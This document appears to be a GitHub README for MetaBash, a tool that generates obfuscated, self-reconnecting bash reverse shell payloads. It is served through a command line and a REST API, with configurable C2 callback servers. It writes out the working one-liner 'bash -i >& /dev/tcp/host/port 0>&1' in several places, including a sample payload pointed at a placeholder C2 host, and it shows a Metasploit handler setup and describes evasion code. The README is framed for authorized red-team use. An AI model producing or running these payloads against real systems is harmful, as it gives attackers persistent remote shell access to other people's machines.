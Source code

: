 # MetaBash - Metamorphic Bash Reverse Shell Generator

## Overview
MetaBash is a Python tool for generating highly variable, metamorphic bash reverse shell payloads. It is designed for red team, research, and educational use, and can be used both as a command-line tool and via a REST API.

## Features
- **Metamorphic Bash Payloads:** Each payload is unique, with randomized logic and structure.
- **Direct Bash Reverse Shell:** Payloads use a reliable bash reverse shell for maximum compatibility with Metasploit and netcat handlers.
- **API Wrapper:** Generate payloads programmatically via a REST API with API key authentication.
- **Configurable C2 Endpoints:** Easily set your callback IPs/ports in `config.py`.
- **Junk/Evasion Code:** Optionally includes junk and evasion code for obfuscation.

## Quick Start

### 1. Clone and Install
```bash
git clone https://github.com/yourusername/metabash.git
cd metabash
pip install -r requirements.txt
```

### 2. Configure
Edit `config.py` to set your API key and C2 endpoints:
```python
API_KEY = "your_api_key_here"
C2_ENDPOINTS = [
    ("your.c2.server", 9000),
    ("another.c2.server", 4444)
]
```

### 3. Generate a Payload (CLI)
```bash
python3 payload_generator.py
# Output: Metamorphic payload written to payload_YYYYMMDD_HHMMSS_xxxxxxxx.sh
```

### 4. Use the API
Start the API server:
```bash
python3 api_wrapper.py
```
Generate a payload via API:
```bash
curl -X POST http://localhost:8080/x7y9z2 -H "x-api-key: your_api_key_here"
```

### 5. Handler Example (Metasploit)
```
use exploit/multi/handler
set PAYLOAD cmd/unix/reverse_bash
set LHOST <your_ip>
set LPORT <your_port>
run
```

## How It Works
- The payload connects to a random C2 endpoint from your list.
- If the port is open, it spawns a direct interactive bash reverse shell:
  ```bash
  bash -i >& /dev/tcp/$host/$port 0>&1
  ```
- The loop persists, so if the connection drops, it will try again.

## File Structure
- `payload_generator.py` — Main payload generator
- `api_wrapper.py` — REST API server
- `config.py` — Configuration (API key, C2 endpoints, etc.)
- `requirements.txt` — Python dependencies
- `README.md` — This file

## Security & Legal
- **For authorized use only.** Do not use on systems you do not own or have explicit permission to test.
- The authors are not responsible for misuse or damage.
- Always follow your local laws and organizational policies.

## License
MIT

## Diagrams

### Workflow Diagram
```mermaid
graph TD;
    A[User] -->|Generate Payload| B[Payload Generator]
    B -->|Unique Payload| C[Payload File]
    C -->|Execute| D[Target System]
    D -->|Connect| E[C2 Server]
    E -->|Interactive Shell| F[Metasploit Handler]
```

### API Flow Diagram
```mermaid
graph LR;
    A[Client] -->|POST Request| B[API Server]
    B -->|Validate API Key| C[Payload Generator]
    C -->|Return Payload| D[Client]
```

## Examples

### Example Payload
```bash
#!/bin/bash
# This is a sample payload generated by MetaBash
bash -i >& /dev/tcp/your.c2.server/9000 0>&1
```

### Example API Response
```json
{
  "payload": "#!/bin/bash\nbash -i >& /dev/tcp/your.c2.server/9000 0>&1",
  "status": "success"
}
```

## Contributing
Contributions are welcome! Please feel free to submit a Pull Request.

## Contact
For any questions or concerns, please open an issue on GitHub. 
